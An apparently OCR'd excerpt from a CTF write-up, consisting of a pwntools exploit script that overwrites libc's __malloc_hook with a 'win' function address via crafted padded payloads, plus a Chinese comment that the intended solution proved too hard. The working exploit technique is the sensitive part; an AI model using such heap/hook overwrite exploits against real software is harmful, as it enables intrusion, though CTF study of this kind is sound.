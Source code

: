 ```python
send(payload)
recv()

sleep(5)
payload = b"#START\n"
for i in range(14):
    payload += b"A" * 0x20 + b" = "
    payload += str(2333 + i).encode()
    payload += b"\n"

success(libc.address)
pause()
send(payload)

payload = b"A" * 0x20 + b" = "
payload += str(libc.sym["__malloc_hook"]).encode()
payload += b"\n"

payload += b"A" * 0x20 + b" = "
payload += str(6666).encode()
payload += b"\n"

payload += b"A" * 0x20 + b" = "
payload += str(6657).encode()
payload += b"\n"

payload += b"A" * 0x20 + b" = "
payload += str(elf.sym["win"]).encode()
payload += b"\n"

pause()
# b *0x400EF5
payload += b"A" * 0x20 + b" = "
payload += str(0xDEADBEEF).encode()
payload += b"\n"

send(payload)
ia()

```

至于正统的是真没法打，完全不知道它是在什么时候 gc 的，试了个 sleep(5-i\*0.05) 从 -100 到 100 也没打出报错，感觉不容易，更别提在报错之后去测哪里开始循环了，放弃！
